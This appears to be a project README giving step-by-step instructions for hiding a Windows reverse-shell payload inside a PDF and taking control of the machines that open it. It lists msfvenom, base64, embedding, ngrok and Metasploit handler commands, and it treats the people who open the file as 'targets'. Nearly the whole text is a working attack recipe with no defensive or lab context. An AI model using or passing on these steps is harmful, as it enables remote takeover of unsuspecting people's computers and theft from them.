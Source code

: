 ## Creating the Payload

To create the shell executable here:

```
msfvenom -p windows/shell/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
```

To create the base64 encoded payload, in any command line:

```
base64 shell.exe > payload
```

## Embedding the Payload

To embed the payload in an existing clean.pdf to make a malicious.pdf, simply run:

```
python embed_payload.py
```

When prompted for an input file, enter clean.pdf, and when prompted for output malicious.pdf. By default, the file will look for a payload named payload. 

## Setting up a Listener

To use Ngrok to open up a listener:

```
ngrok tcp <Your Port to Connect On>
```

To be ready to receive TCP connections in Metasploit, first open up msfconsole, and then:

```
use exploit/multi/handler
set PAYLOAD windows/shell/reverse_tcp
set LHOST <Your IP Address>
set LPORT <Your Port to Connect On>
set ExitOnSession false
exploit -j -z
```

## Wait For the Exploit

You'll be able to see when your machine is getting TCP connections to your targets. Each target machine accounts for 2 TCP connections, so in this example, there are 8 connections being made.

![alt text](https://github.com/edwisdom/googlespoof/blob/master/ExploitDemo.png "Exploit Demo")